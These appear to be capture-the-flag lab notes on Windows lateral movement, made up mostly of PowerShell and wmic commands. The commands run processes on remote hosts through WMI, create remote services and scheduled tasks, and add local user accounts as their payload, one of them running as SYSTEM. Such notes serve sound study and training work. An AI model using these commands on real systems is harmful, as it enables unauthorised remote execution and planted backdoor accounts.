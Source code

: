 ```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{ 
	CommandLine = $Command 
}
```

```sh
# command for MS cmd.exe
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" 
```

### Creating Services Remotely with WMI

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

- Get a handle on the service and start it with the following commands:

```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

- Once done, stop and delete the service with the following commands:

```powershell
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

### Creating Scheduled Tasks Remotely with WMI

We can create and execute scheduled tasks by using some cmdlets available in Windows default installations:

```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```
